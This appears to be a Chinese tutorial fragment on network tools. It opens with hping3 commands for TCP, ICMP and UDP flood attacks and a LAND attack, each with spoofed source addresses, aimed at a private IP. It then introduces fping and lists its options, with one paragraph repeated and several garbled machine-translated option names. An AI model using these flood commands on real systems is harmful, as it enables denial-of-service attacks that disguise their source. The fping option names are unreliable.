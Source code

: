 #### TCP Flood攻击

使用以下命令建立全连接：
hping3 -SARUPF -p 80 –flood –rand-source 192.168.100.1

#### ICMP Flood攻击

hping3 -q -n -d 200 –icmp –flood -a 11.11.11.11 192.168.100.1
-q安静模式 -n不解析域名 -a指定伪造IP

#### UDP Flood 攻击

hping3 –udp -s 6666 -p 53 -a 8.8.8.8 –flood 192.168.100.1

LAND攻击
hping3 -n -S -p 80 -a 192.168.100.1 –flood 192.168.100.1



### **FPING简介**

Fping程序类似于ping（ping是通过ICMP（网络控制信息协议InternetControl Message Protocol）协议回复请求以检测主机是否存在）。Fping与ping不同的地方在于，fping可以在命令行中指定要ping的主机数量范围，也可以指定含有要ping的主机列表文件。

与ping要等待某一主机连接超时或发回反馈信息不同，fping给一个主机发送完数据包后，马上给下一个主机发送数据包，实现多主机同时ping。如果某一主机ping通，则此主机将被打上标记，并从等待列表中移除，如果没ping通，说明主机无法到达，主机仍然留在等待列表中，等待后续操作。

Fping类似于ping，但比ping强大。Fping与ping不同的地方在于，fping可以在命令行中指定要ping的主机数量范围，也可以指定含有要ping的主机列表文件。
与ping要等待某一主机连接超时或发回反馈信息不同，fping给一个主机发送完数据包后，马上给下一个主机发送数据包，实现多主机同时ping。如果某一主机ping通，则此主机将被打上标记，并从等待列表中移除，如果没ping通，说明主机无法到达，主机仍然留在等待列表中，等待后续操作。

#### fping的命令和参数详解



**−4** , **−−ipv4**

将名称解析和 IP 限制为 IPv4 地址。

**−6** , **−−ipv6**

将名称解析和 IP 限制为 IPv6 地址。

**−a** , −− **活着**

显示活着的系统。

**−A** , −− **地址**

按地址而不是DNS名称显示目标。结合 -d，输出将是 IP 和（如果可用）主机名。

**−b** , **−−size** = *BYTES*

要发送的 ping 数据的字节数。最小大小（通常为 12）为**fping**完成其工作所需的数据（序列号、时间戳）**留出**空间。上报的接收数据大小包括IP头（通常为20字节）和 ICMP头（8字节），所以最小总大小为40字节。默认值为 56，如**ping**。最大值是理论上的最大IP数据报大小 (64K)，尽管大多数系统将其限制为较小的、与系统相关的数字。

**−B** , −− **退避**= *N*

退避因素。在默认模式下，**fping**在放弃之前向目标发送多个请求，等待对每个连续请求的回复的时间更长。此参数是等待时间 ( **-t** ) 乘以每个连续请求的值；它必须作为浮点数 (xy) 输入。默认值为 1.5。
